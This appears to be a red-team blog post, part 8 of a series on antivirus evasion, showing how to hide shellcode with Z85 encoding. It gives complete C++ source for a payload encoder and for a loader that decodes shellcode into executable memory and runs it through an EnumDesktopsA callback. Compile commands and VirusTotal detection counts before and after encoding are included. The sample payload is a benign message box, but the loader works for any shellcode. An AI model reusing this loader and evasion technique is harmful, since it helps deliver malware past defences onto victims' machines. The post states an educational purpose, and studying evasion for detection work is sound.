 ```yaml
---
title:  "Malware AV evasion - part 8. Encode payload via Z85 algorithm. C++ example."
date:   2022-07-30 09:00:00 +0600
header:
  teaser: "/assets/images/64/2022-07-31_16-39.png"
categories:
  - malware
tags:
  - evasion
  - windows
  - malware
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![av-evasion](/assets/images/64/2022-07-31_16-39.png){:class="img-responsive"}

This article is the result of my own research into interesting trick: encoding payload via Z85.    

Since the methods of encrypting the payload with the [AES](https://github.com/cocomelonc/peekaboo/tree/aes) and [XOR](/tutorial/2021/09/04/simple-malware-av-evasion.html) algorithms and encoding (for example, with the base64 algorithm) have been studied with blue teamers quite well, the question arose to try to hide the payload in a non-standard way.     

### Z85

*Ascii85*, also called *Base85*, is a form of binary-to-text encoding used to communicate arbitrary binary data over channels that were designed to carry only English language human-readable text. *Z85* a format for representing binary data as printable text. [Z85](https://rfc.zeromq.org/spec/32/) is a derivative of existing Ascii85 encoding mechanisms, modified for better usability, particularly for use in source code.     

### practical example

Let's go to look at a practical example. First of all encode our payload via Z85 (`encode.cpp`):

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <./z85.h>
#include <./z85.c>
#include <windows.h>

char* encode(const char* src, size_t len) {
   // allocate output buffer (+1 for null terminating char)
   char* dest = (char*)malloc(Z85_encode_with_padding_bound(len) + 1);

   if (len == 0) {
      dest[0] = '\0'; // write null terminating char
      return dest;
   }

   // encode the input buffer, padding it if necessary
   len = Z85_encode_with_padding(src, dest, len);

   if (len == 0) { // something went wrong
      free(dest);
      return NULL;
   }

   dest[len] = '\0'; // write null terminating char

   return dest;
}

unsigned char payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main() {
   char* str = encode((const char*)payload, sizeof(payload));
   if (str) {
      printf("%s\n", str);
      free(str);
   }
   return 0;
}
```

Then compile it:    

```bash
x86_64-w64-mingw32-g++ -O2 encode.cpp -o encode.exe -I/usr/share/mingw-w64/include/ -I/home/cocomelonc/hacking/cybersec_blog/2022-07-29-malware-av-evasion-8 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![av-evasion](/assets/images/64/2022-07-31_16-54.png){:class="img-responsive"}       

and run:

```powershell
.\encode.exe
```

![av-evasion](/assets/images/64/2022-07-31_17-17.png){:class="img-responsive"}       

As usually, for simplicity I used `meow-meow` messagebox payload:

```cpp
unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

Then, in the next step we put this encoded payload to our "malware". I took the technique of running payload from one of the [previous](/tutorial/2022/06/27/malware-injection-20.html) articles:    

```cpp
/*
* hack.cpp
* Z85 encode payload
* author: @cocomelonc
* https://cocomelonc.github.io/malware/2022/07/30/malware-av-evasion-8.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <./z85.h>
#include <./z85.c>
#include <windows.h>

int main(int argc, char* argv[]) {
  BOOL rv;
  HANDLE th;
  DWORD oldprotect = 0;

  char e_my_payload[] = "2@78z1[C&K*>*fqf06%EFp/pd>nhnL7nq*wNk1HPf7^pGGqxOd]I/ISTndSg4n>?4Znhm]YjyJQsefEl{:QHJp.q:&Wk#x*pI=7VYI:xJ%0NK2*Fqsg907.*VBz<XJ=}(]:neKJUI:eyR0NP>inDl^}l5NNQncdpog08%vZ]P&r:QHJp.8Qv}[JGRGoE6)jiNJ02suYchkQn]4=$kEcIWScum2KqInDEg4l5L(4ncd76sv34}sZ19[l0lGSnq3mKk#N:vsv37[k1HOA>$g{P%6njp.2KDn06S@kL]oV606T8oG^u:107X&^laPHqrTnVPYwKXV3phn2Ma-:*!KUthc{dYY3v@3iBP]xE6ln2a09IQA*w/X$wP8=AzdNTfaPKVie?QD[00000";
  char d_my_payload[314] = {};
  size_t d = Z85_decode_with_padding(e_my_payload, d_my_payload, strlen(e_my_payload));
  LPVOID mem = VirtualAlloc(NULL, sizeof(d_my_payload), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, d_my_payload, sizeof(d_my_payload));
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, 0);
  return 0;
}
```

Many thanks to [@artemkin](https://github.com/artemkin/z85) for real-worked C/C++ implementation, also encoding/decoding with padding.   

### demo

Let's go to see everything in action. Compile our "malware":

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -I/usr/share/mingw-w64/include/ -I/home/cocomelonc/hacking/cybersec_blog/2022-07-29-malware-av-evasion-8 -L/usr/x86_64-w64-mingw32/lib/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![av-evasion](/assets/images/64/2022-07-31_17-21.png){:class="img-responsive"}     

and run in our victim's machine:

```powershell
.\hack.exe
```

![av-evasion](/assets/images/64/2022-07-31_17-32.png){:class="img-responsive"}

As you can see, everything is work perfectly :)   

Let's go to upload `hack.exe` to VirusTotal:

![av-evasion](/assets/images/64/2022-07-31_17-34.png){:class="img-responsive"}

**So, 14 of 70 AV engines detect our file as malicious.**

[https://www.virustotal.com/gui/file/6345f46e33919dd1e0691508a1f705d33ed44aadbdd1bb01a15fdad628b29fca/detection](https://www.virustotal.com/gui/file/6345f46e33919dd1e0691508a1f705d33ed44aadbdd1bb01a15fdad628b29fca/detection)    

if you remember, this technique without encoding showed the result **16 of 66**:    

![av-evasion](/assets/images/60/2022-06-27_14-37.png){:class="img-responsive"}      

[https://www.virustotal.com/gui/file/657ff9b6499f8eed373ac61bf8fc98257295869a833155f68b4d68bb6e565ca1/detection](https://www.virustotal.com/gui/file/657ff9b6499f8eed373ac61bf8fc98257295869a833155f68b4d68bb6e565ca1/detection)      

**We have reduced the number of AV engines which detect our malware from 16 to 14**!    

So it can be assumed that evasion works.      

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.

[Z85](https://rfc.zeromq.org/spec/32/)    
[https://github.com/artemkin/z85](https://github.com/artemkin/z85)    
[EnumDesktopsA](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-enumdesktopsa)     
[source code in github](https://github.com/cocomelonc/meow/tree/master/2022-07-29-malware-av-evasion-8)      

> This is a practical case for educational purposes only.

Thanks for your time happy hacking and good bye!
*PS. All drawings and screenshots are mine*
